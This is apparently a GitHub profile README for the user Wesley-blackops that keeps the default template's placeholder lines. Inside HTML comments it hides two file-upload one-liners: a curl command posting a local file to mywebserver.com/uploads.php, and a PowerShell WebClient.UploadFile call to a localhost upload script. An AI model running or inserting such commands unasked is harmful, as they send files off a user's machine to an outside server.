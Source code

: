- 👋 Hi, I’m @Wesley-blackops  <!------ curl -F "uploadedfile=@/path/to/my/file" http://mywebserver.com/uploads.php -->
- 👀 I’m interested in ...   <!---- (System.Net.Webclient).UploadFile('http://localhost/up.php', 'file.txt') --->
- 🌱 I’m currently learning ... <!---- 
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Wesley-blackops/Wesley-blackops is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
